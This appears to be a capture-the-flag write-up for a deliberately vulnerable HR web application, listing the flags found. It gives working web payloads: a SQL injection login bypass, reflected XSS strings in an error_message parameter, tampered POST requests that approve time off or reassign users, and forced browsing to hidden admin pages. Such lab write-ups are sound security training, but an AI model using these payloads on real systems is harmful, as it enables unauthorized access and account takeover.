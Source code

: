 # Human Resources

## Getting in

To make your way to the HR panel, inspect the source code and uncomment the test form
```HTML
<form action="/HumanResources/auth/testLogin" method="post" enctype="multipart/form-data">
  	      <input type="submit" class="button right expand" value="Login as Test" />
        </form>
```

## Data tampering

Tampering was probably the most common vulnerability on this website. Here are some examples:

- Unauthorized Addition of a User to a Project via Form Input Tampering  
- Unauthorized User Management via Path Parameter Tampering

On the Manage tab, submit a form, changing the user value and project id.
```
POST /HumanResources/manage/users/30/projects HTTP/1.1
projectId=11
```
- Alter Time Off Request Status via Hidden Form Field Tampering

Every new Time off request is 'pending' by default. You can change the status value in the request.

```
POST /HumanResources/timeOff/create HTTP/1.1
start_date=2017%2F11%2F30&end_date=2017%2F12%2F14&status=approved
```
## Injection
### SQLi

There is a list of employees in the administration panel, we can grab some usernames and login through the other user.

- SQL Injection Against Login Page for Authentication Bypass
```
username: sbutler' or 'y
password: whatever
```
After log in as another (unprivileged user), we can forcefully browse to the previously known directories from admin panel.

- Gain Unauthorized Access to HR Staff Page via Forceful Browsing
- Forceful Browsing to Manager Portal
- Generate Employee Report Without Being Authenticated as a Manager
- and more...

### XSS

When submitting forms, you will occasionally get success/error messages. The url would look something like this ```login?error_message=Invalid Credentials```

Simple XSS achieves the following flags:

- Cross-Site Scripting Against Login Page
- Cross-Site Scripting Against an HR Staff Users Page
- Cross-Site Scripting Against Home Page
- Cross-Site Scripting On Timesheet Page

```html
/login?error_message=<img src="x" onerror="alert(1337)"/>
or
/login?error_message=<img src="javascript:alert(1337)"/>
```

## Misc

Web Crawler was useful.

- Discovering Navbar Manager Portal Button Hidden with CSS

Navigate to ```/manager``` folder
